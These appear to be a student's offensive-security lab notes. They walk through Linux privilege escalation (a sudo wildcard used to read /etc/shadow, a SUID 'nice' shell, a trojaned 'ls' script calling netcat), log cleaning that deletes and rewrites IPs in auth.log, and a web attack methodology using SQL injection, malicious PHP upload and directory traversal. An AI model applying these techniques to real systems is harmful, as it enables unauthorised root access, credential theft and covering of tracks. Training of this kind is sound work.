 **demo 2**
sudo -l -> (root) NOPASSWD: /bin/cat /var/log/syslog*
so we can:
    ls /var/log/syslog
in order to see log files. -> BUT because there was an asterisk.. run 
    sudo cat /var/log/syslog.1 /etc/shadow

**demo 3**
find / -type f -perm /4000 -ls 2>/dev/null (find files with SUID bit)
look through these, and cross reference with GTFO bins
we find /usr/bin/nice 
and GTFO bins tells us to run it and give ourself a shell.
-> nice /bin/sh -p
BAM SHELL

**Demo 4**
cd into /tmp
make a script.
nano ls
#!/bin/bash -e /bin/bash
nc 127.0.0.1 3333

chmod it. chmod +x ls
**create a netcat listener** on another terminal
nc -lvp 3333 
**run script**
**ls has been replaced with a script, to actually run the command, /bin/ls**



ghjcnbnenrf      (zeus)
Log cleaning example question.
    In order to receive credit for this challenge you must provide the md5sum of the auth.log after it has been cleaned.

There are log entries from the network you pivoted from.
The user name is 'billybob'
You don’t know the exact IP address but you know the network is a 172.16.0.0/16

    cat auth.log | grep 172
    egrep -v '21:51:32|10:02:15' auth.log > auth.lame
    sed -i 's/172.16.34.4/192.168.1.103/g' auth.lame
Dry run notes:
- nmap starting IP address.
    nmap -Pn -T4 *start ip*
- we noticed port 22 and 80 open.
    nmap -Pn -T4 --script=banner,http-enum.nse *start ip*
    do this to ensure ports are what they say they are, and enumerate http.
- port 80 was open, so we'll open Firefox and navigate to that site.
    first thing on new site, scroll up and down and click on stuff.
    open everything in new tabs. 
    we see three different links, they all lead to the same page.
    we notice an input box where we can exploit.
    we notice a box where we can upload a file. (malicious php file)
    we notice a user login page.
    we saw the scripts directory from our nmap script. -> click on that and find creds.
- we saw that we could click on the login box. use sql injection like bob' or 1='1
    to see info.
        open developer console, capture the traffic. change the post request to raw, add a question mark after the php, paste the raw request after it. then view page source.
- decode encoded passwords using Cyberchef
- if you see file to read, think DIRECTORY TRAVERSAL
    go back to the input box, and check ../../../../etc/hosts, /etc/passwd etc.
- in /etc/hosts -> we see the IP address to what we can assume is the next pivot.
- use creds you found to SSH into the back end of the start ip.
- Once you get on a box, things you should do ->
    cat /etc/hosts, /etc/passwd etc. | ip neigh | ruby pingsweep